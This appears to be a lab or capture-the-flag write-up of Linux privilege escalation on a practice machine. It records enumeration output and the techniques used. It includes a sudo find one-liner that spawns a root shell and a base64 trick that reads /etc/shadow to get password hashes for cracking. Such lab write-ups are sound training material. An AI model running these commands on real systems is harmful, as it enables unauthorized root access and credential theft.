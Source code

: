 # Privilege Escalation Capstone Challenge

Enumeration:

hostname = ip-10-10-15-182
kernel = 3.10.0-1160.el7.x86_64
scripting/compilers = python 2.7.5, gcc 4.8.5, perl 5.16.3
PATH locations = /home/leonard/scripts, /tmp/leonard, /home/leonard/perl5/bin
users = leonard, missy

Automated Enumeration:

[LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

Linpeas found `/usr/bin/base64` had SUID set, vulnerability to CVE-2021-4034 and various 
other kernel exploits

Kernel Exploits

`searchsploit '3.10' 'linux kernel'`

Sudo

`sudo -l`

leonard = no sudo access
missy = `/usr/bin/find`

Used `sudo find . -exec /bin/sh \; -quit` to gain root shell as missy

SUID

`find / -type f -perm 04000 -ls 2>/dev/null`

Found no SUID or SGID set with find

Linpeas found `/usr/bin/base64`

Used `LFILE=/etc/shadow; base64 "$LFILE" | base64 -d` to grab missy's password hash and crack it

Capabilities

`getcap -r / 2>/dev/null`

/usr/bin/newgidmap = cap_setgid+ep
/usr/bin/newuidmap = cap_setuid+ep
/usr/bin/ping = cap_net_admin,cap_net_raw+p
/usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep
/usr/sbin/arping = cap_net_raw+p
/usr/sbin/clockdiff = cap_net_raw+p
/usr/sbin/mtr = cap_net_raw+ep
/usr/sbin/suexec = cap_setgid,cap_setuid+ep

Cron Jobs

No jobs in crontab

PATH

Shows /home/leonard/scripts (non-existant) and /tmp/leonard

NFS

None found
